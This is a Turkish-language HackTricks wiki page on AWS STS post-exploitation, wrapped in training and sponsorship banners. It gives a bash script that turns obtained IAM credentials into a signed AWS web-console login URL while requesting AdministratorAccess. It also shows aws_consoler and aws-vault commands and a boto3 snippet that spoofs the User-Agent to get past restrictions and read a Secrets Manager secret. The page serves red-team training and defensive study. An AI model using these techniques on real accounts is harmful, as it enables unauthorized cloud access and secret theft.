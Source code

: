 # AWS - STS Post Exploitation

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## STS

Daha fazla bilgi için:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### IAM Kimlik Bilgilerinden Konsola

Eğer bazı IAM kimlik bilgilerini elde etmeyi başardıysanız, **web konsoluna erişmek** için aşağıdaki araçları kullanmakla ilgilenebilirsiniz.\
Kullanıcı/rolün **`sts:GetFederationToken`** iznine sahip olması gerektiğini unutmayın.

#### Özel script

Aşağıdaki script, varsayılan profili ve varsayılan bir AWS konumunu (gov değil ve cn değil) kullanarak, web konsoluna giriş yapmak için kullanabileceğiniz imzalı bir URL verecektir:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

[https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws_consoler) ile **bir web konsol bağlantısı oluşturabilirsiniz**.
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
IAM kullanıcısının `sts:GetFederationToken` iznine sahip olduğundan emin olun veya üstlenilecek bir rol sağlayın.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) AWS kimlik bilgilerini güvenli bir şekilde depolamak ve erişmek için bir geliştirme ortamında kullanılan bir araçtır.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
Ayrıca **aws-vault** kullanarak bir **tarayıcı konsol oturumu** alabilirsiniz.
{% endhint %}

### **Python'dan User-Agent kısıtlamalarını aşma**

Eğer kullanılan **user agent'a dayalı olarak belirli eylemleri gerçekleştirme kısıtlaması** varsa (örneğin, user agent'a dayalı olarak python boto3 kütüphanesinin kullanımını kısıtlama) önceki tekniği kullanarak **tarayıcı aracılığıyla web konsoluna bağlanmak** mümkündür veya doğrudan **boto3 user-agent'ını** şu şekilde **değiştirebilirsiniz**:

{% code overflow="wrap" %}
```bash
# Shared by ex16x41
# Create a client
session = boto3.Session(profile_name="lab6")
client = session.client("secretsmanager", region_name="us-east-1")

# Change user agent of the client
client.meta.events.register( 'before-call.secretsmanager.GetSecretValue', lambda params, **kwargs: params['headers'].update({'User-Agent': 'my-custom-tool'}) )

# Perform the action
response = client.get_secret_value(SecretId="flag_secret") print(response['SecretString'])
```
{% endcode %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
